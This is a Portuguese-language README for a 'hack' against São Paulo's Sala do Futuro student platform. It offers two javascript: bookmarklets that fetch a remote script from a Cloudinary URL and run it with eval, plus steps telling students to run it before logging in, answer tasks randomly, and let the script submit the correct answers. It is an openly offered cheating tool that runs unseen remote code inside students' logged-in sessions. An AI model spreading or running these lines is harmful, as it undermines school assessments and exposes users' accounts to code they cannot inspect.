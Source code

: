 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
### TUTORIAL:
1. Execute o script antes de **efetuar o Login** no [Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos).
2. **Depois de efetuado**, deve ir até a tarefa que você quer fazer.
3. Responda **aleatoriamente** às questões da tarefa e envie.
4. Logo depois, o script irá inserir todas às **respostas corretamente.**

*Obs: O tempo da tarefa depende unicamente de quanto tempo você ficar na página dela antes de enviar.*

```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### [Discord: Hackermoon](https://discord.gg/k5BFyvbj)

### Créditos

[Inacallep](https://github.com/inacallep)

[Crackingnlearn](https://github.com/crackingnlearn)

[Miturufu](https://github.com/Miturufu)



